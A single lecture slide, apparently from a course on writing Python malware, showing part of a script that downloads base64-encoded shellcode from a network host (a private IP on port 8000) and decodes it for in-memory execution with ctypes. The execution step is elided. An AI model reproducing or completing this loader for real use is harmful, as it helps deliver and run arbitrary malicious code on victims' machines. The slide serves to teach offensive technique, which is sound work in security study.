

Python Malwares (cont.)
Running Shellcode With ctypes (cont.)
We can modify our script to execute a shellcode obtained through the network instead of embedding the shellcode in the script
import ctypes
import base64
from time import sleep
from urllib import request
URL = "http://192.168.10.179:8000/shellcode.b64"
...
Our function that obtains the shellcode and decodes it
def get_shellcode(URL):
    try:
        with request.urlopen(URL) as response:
            shellcode = base64.decodebytes(response.read())
    except:
        return None
    else:
        return shellcode
122